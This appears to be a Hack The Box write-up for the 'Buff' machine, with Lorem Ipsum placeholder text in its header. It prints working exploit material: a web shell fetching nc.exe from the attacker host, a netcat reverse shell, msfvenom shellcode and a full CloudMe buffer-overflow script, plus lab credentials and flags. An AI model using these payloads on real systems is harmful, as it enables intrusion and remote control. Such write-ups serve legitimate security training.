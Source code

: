 ```yaml
---
title: Buff - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2020-07-27
image: images/buff_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/buff_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. root@nidus:~# nmap -Pn -sC -sV -n 10.10.10.198
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-27 08:52 CEST
    Nmap scan report for 10.10.10.198
    Host is up (0.027s latency).
    Not shown: 999 filtered ports
    PORT     STATE SERVICE VERSION
    8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
    | http-open-proxy: Potentially OPEN proxy.
    |_Methods supported:CONNECTION
    |_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
    |_http-title: mrb3n's Bro Hut


2. Browsing the webpage under Contact we find the information "Made using Gym Management Software 1.0". A quick google for exploits
   the first result that comes up is an unauthenticated RCE. Download and run the python script:

   root@nidus:/git/htb/buff# python rce.py http://10.10.10.198:8080/
                 /\
     /vvvvvvvvvvvv \--------------------------------------,
     `^^^^^^^^^^^^ /============BOKU====================="
                 \/

     [+] Successfully connected to webshell.
     C:\xampp\htdocs\gym\upload> whoami
      �PNG
      �
      buff\shaun


3. The shell is basic and we are unable to traverse the directories. Upload nc.exe and use it to get a workable shell.

    From my browser:
      http://10.10.10.198:8080/upload/kamehameha.php?telepathy=curl -O 10.10.14.4:8888/nc.exe

    C:\xampp\htdocs\gym\upload> nc.exe 10.10.14.4 4488 -e powershell

    root@nidus:~# rlwrap nc -lvnp 4488
      listening on [any] 4488 ...
      connect to [10.10.14.4] from (UNKNOWN) [10.10.10.198] 50355
      Windows PowerShell
      Copyright (C) Microsoft Corporation. All rights reserved.

      PS C:\xampp\htdocs\gym\upload>

   Traversing to the gym directory we find "New Text Document.txt" containing database information. Possible rabbit hole?

     PS C:\xampp\htdocs\gym> type "New Text Document.txt"
      type "New Text Document.txt"
      $mysql_host = "mysql16.000webhost.com";
      $mysql_database = "a8743500_secure";
      $mysql_user = "a8743500_secure";
      $mysql_password = "ipad12345";


4. Go and grab user.txt
    PS C:\Users\shaun\Desktop> cat user.txt
      cat user.txt
      1a2e0b6779aa060fc44a5575a0a88926


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Enumerate the box using winPEAS gives us nothing of use. Browsing the directories of shaun we find the file CloudMe_1112.exe,
   a quick google on that file shows us that it's vulnerable to buffer overflow. CloudMe runs on port 8888 and can be verified by
   executing the .exe-file and then run netstat.
   C:\Users\shaun\Downloads>netstat -ano
    netstat -ano

    Active Connections
      Proto  Local Address          Foreign Address        State           PID
      TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       1472


   Prepare the exploit and create the payload reverse shell. Save the binary data (buf-lines) is your payload.
     root@nidus:/git/htb/buff# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=4499 EXITFUNC=thread -b "\x00\x0d\x0a" -f python
      [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
      [-] No arch selected, selecting arch: x86 from the payload
      Found 11 compatible encoders
      Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
      x86/shikata_ga_nai succeeded with size 351 (iteration=0)
      x86/shikata_ga_nai chosen with final size 351
      Payload size: 351 bytes
      Final size of python file: 1712 bytes
      buf =  b""
      buf += b"\xb8\x2e\x4a\xaf\xad\xda\xcf\xd9\x74\x24\xf4\x5e\x31"
      buf += b"\xc9\xb1\x52\x31\x46\x12\x83\xc6\x04\x03\x68\x44\x4d"
      buf += b"\x58\x88\xb0\x13\xa3\x70\x41\x74\x2d\x95\x70\xb4\x49"
      buf += b"\xde\x23\x04\x19\xb2\xcf\xef\x4f\x26\x5b\x9d\x47\x49"
      buf += b"\xec\x28\xbe\x64\xed\x01\x82\xe7\x6d\x58\xd7\xc7\x4c"
      buf += b"\x93\x2a\x06\x88\xce\xc7\x5a\x41\x84\x7a\x4a\xe6\xd0"
      buf += b"\x46\xe1\xb4\xf5\xce\x16\x0c\xf7\xff\x89\x06\xae\xdf"
      buf += b"\x28\xca\xda\x69\x32\x0f\xe6\x20\xc9\xfb\x9c\xb2\x1b"
      buf += b"\x32\x5c\x18\x62\xfa\xaf\x60\xa3\x3d\x50\x17\xdd\x3d"
      buf += b"\xed\x20\x1a\x3f\x29\xa4\xb8\xe7\xba\x1e\x64\x19\x6e"
      buf += b"\xf8\xef\x15\xdb\x8e\xb7\x39\xda\x43\xcc\x46\x57\x62"
      buf += b"\x02\xcf\x23\x41\x86\x8b\xf0\xe8\x9f\x71\x56\x14\xff"
      buf += b"\xd9\x07\xb0\x74\xf7\x5c\xc9\xd7\x90\x91\xe0\xe7\x60"
      buf += b"\xbe\x73\x94\x52\x61\x28\x32\xdf\xea\xf6\xc5\x20\xc1"
      buf += b"\x4f\x59\xdf\xea\xaf\x70\x24\xbe\xff\xea\x8d\xbf\x6b"
      buf += b"\xea\x32\x6a\x3b\xba\x9c\xc5\xfc\x6a\x5d\xb6\x94\x60"
      buf += b"\x52\xe9\x85\x8b\xb8\x82\x2c\x76\x2b\xa7\xba\x76\xaf"
      buf += b"\xdf\xb8\x86\xbe\x8c\x34\x60\xaa\xa2\x10\x3b\x43\x5a"
      buf += b"\x39\xb7\xf2\xa3\x97\xb2\x35\x2f\x14\x43\xfb\xd8\x51"
      buf += b"\x57\x6c\x29\x2c\x05\x3b\x36\x9a\x21\xa7\xa5\x41\xb1"
      buf += b"\xae\xd5\xdd\xe6\xe7\x28\x14\x62\x1a\x12\x8e\x90\xe7"
      buf += b"\xc2\xe9\x10\x3c\x37\xf7\x99\xb1\x03\xd3\x89\x0f\x8b"
      buf += b"\x5f\xfd\xdf\xda\x09\xab\x99\xb4\xfb\x05\x70\x6a\x52"
      buf += b"\xc1\x05\x40\x65\x97\x09\x8d\x13\x77\xbb\x78\x62\x88"
      buf += b"\x74\xed\x62\xf1\x68\x8d\x8d\x28\x29\xad\x6f\xf8\x44"
      buf += b"\x46\x36\x69\xe5\x0b\xc9\x44\x2a\x32\x4a\x6c\xd3\xc1"
      buf += b"\x52\x05\xd6\x8e\xd4\xf6\xaa\x9f\xb0\xf8\x19\x9f\x90"

   Modify the exploit script and change the payload to your reverse shell.

     root@nidus:/git/htb/buff# cat root-exploit.py
      import socket

      target = "127.0.0.1"

      padding1   = b"\x90" * 1052
      EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
      NOPS       = b"\x90" * 30

      #msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=4499 EXITFUNC=thread -b "\x00\x0d\x0a" -f python
      payload =  b""
      payload += b"\xda\xd3\xd9\x74\x24\xf4\xbe\x2c\x9a\xa7\xd2\x5f\x29"
      payload += b"\xc9\xb1\x52\x83\xc7\x04\x31\x77\x13\x03\x5b\x89\x45"
      payload += b"\x27\x5f\x45\x0b\xc8\x9f\x96\x6c\x40\x7a\xa7\xac\x36"
      payload += b"\x0f\x98\x1c\x3c\x5d\x15\xd6\x10\x75\xae\x9a\xbc\x7a"
      payload += b"\x07\x10\x9b\xb5\x98\x09\xdf\xd4\x1a\x50\x0c\x36\x22"
      payload += b"\x9b\x41\x37\x63\xc6\xa8\x65\x3c\x8c\x1f\x99\x49\xd8"
      payload += b"\xa3\x12\x01\xcc\xa3\xc7\xd2\xef\x82\x56\x68\xb6\x04"
      payload += b"\x59\xbd\xc2\x0c\x41\xa2\xef\xc7\xfa\x10\x9b\xd9\x2a"
      payload += b"\x69\x64\x75\x13\x45\x97\x87\x54\x62\x48\xf2\xac\x90"
      payload += b"\xf5\x05\x6b\xea\x21\x83\x6f\x4c\xa1\x33\x4b\x6c\x66"
      payload += b"\xa5\x18\x62\xc3\xa1\x46\x67\xd2\x66\xfd\x93\x5f\x89"
      payload += b"\xd1\x15\x1b\xae\xf5\x7e\xff\xcf\xac\xda\xae\xf0\xae"
      payload += b"\x84\x0f\x55\xa5\x29\x5b\xe4\xe4\x25\xa8\xc5\x16\xb6"
      payload += b"\xa6\x5e\x65\x84\x69\xf5\xe1\xa4\xe2\xd3\xf6\xcb\xd8"
      payload += b"\xa4\x68\x32\xe3\xd4\xa1\xf1\xb7\x84\xd9\xd0\xb7\x4e"
      payload += b"\x19\xdc\x6d\xc0\x49\x72\xde\xa1\x39\x32\x8e\x49\x53"
      payload += b"\xbd\xf1\x6a\x5c\x17\x9a\x01\xa7\xf0\xaf\xdf\xa9\x04"
      payload += b"\xd8\xdd\xb5\x15\x8b\x6b\x53\x7f\xbb\x3d\xcc\xe8\x22"
      payload += b"\x64\x86\x89\xab\xb2\xe3\x8a\x20\x31\x14\x44\xc1\x3c"
      payload += b"\x06\x31\x21\x0b\x74\x94\x3e\xa1\x10\x7a\xac\x2e\xe0"
      payload += b"\xf5\xcd\xf8\xb7\x52\x23\xf1\x5d\x4f\x1a\xab\x43\x92"
      payload += b"\xfa\x94\xc7\x49\x3f\x1a\xc6\x1c\x7b\x38\xd8\xd8\x84"
      payload += b"\x04\x8c\xb4\xd2\xd2\x7a\x73\x8d\x94\xd4\x2d\x62\x7f"
      payload += b"\xb0\xa8\x48\x40\xc6\xb4\x84\x36\x26\x04\x71\x0f\x59"
      payload += b"\xa9\x15\x87\x22\xd7\x85\x68\xf9\x53\xa5\x8a\x2b\xae"
      payload += b"\x4e\x13\xbe\x13\x13\xa4\x15\x57\x2a\x27\x9f\x28\xc9"
      payload += b"\x37\xea\x2d\x95\xff\x07\x5c\x86\x95\x27\xf3\xa7\xbf"

      overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))

      buf = padding1 + EIP + NOPS + payload + overrun

      try:
      	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
      	s.connect((target,8888))
      	s.send(buf)
      except Exception as e:
      	print(sys.exc_value)


2. The script needs to be executed on the local box, as the victim doesn't have python installed. Create a reverse port forward using plink.

   Upload plink:
     PS C:\Users\shaun\Downloads> invoke-webrequest -uri "http://10.10.14.4:8877/plink.exe" -outfile "C:\Users\shaun\Downloads\plink.exe"

   Setup the reverse port forward using the following syntax:
    ./plink.exe <ATTACKER-IP> <ATTACKER-PORT>:127.0.0.1:<LOCAL-SERVICE-PORT>

    PS C:\Users\shaun\Downloads> ./plink.exe 10.10.14.4 -R 8888:127.0.0.1:8888
      ./plink.exe 10.10.14.4 -R 8888:127.0.0.1:8888
      The server's host key is not cached in the registry. You
      have no guarantee that the server is the computer you
      think it is.
      The server's ssh-ed25519 key fingerprint is:
      ssh-ed25519 255 6a:d5:96:27:f9:c4:a0:c4:49:86:6d:2d:0e:76:7f:81
      If you trust this host, enter "y" to add the key to
      PuTTY's cache and carry on connecting.
      If you want to carry on connecting just once, without
      adding the key to the cache, enter "n".
      If you do not trust this host, press Return to abandon the
      connection.
      Store key in cache? (y/n) y
      login as: p3
      p3@10.10.14.4's password: ********


3. Setup a new listener to capture the reverse shell from the exploit, and then execute the script. Grab root.txt

    root@nidus:/git/htb/buff# python root-exploit.py
    root@nidus:~# rlwrap nc -lvnp 4499
      listening on [any] 4499 ...
      connect to [10.10.14.4] from (UNKNOWN) [10.10.10.198] 49709
      Microsoft Windows [Version 10.0.17134.1610]
      (c) 2018 Microsoft Corporation. All rights reserved.

      C:\Windows\system32>whoami
      whoami
      buff\administrator

      C:\Windows\system32>cd C:\Users\Administrator\Desktop
      cd C:\Users\Administrator\Desktop

      C:\Users\Administrator\Desktop>type root.txt
      type root.txt
      d19eb6d412b70730c11484d0e0076c3b


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

Gym Management Software 1.0 RCE:
  https://www.exploit-db.com/exploits/48506

CloudMe_1112 Buffer Overflow:
  https://www.exploit-db.com/exploits/48389
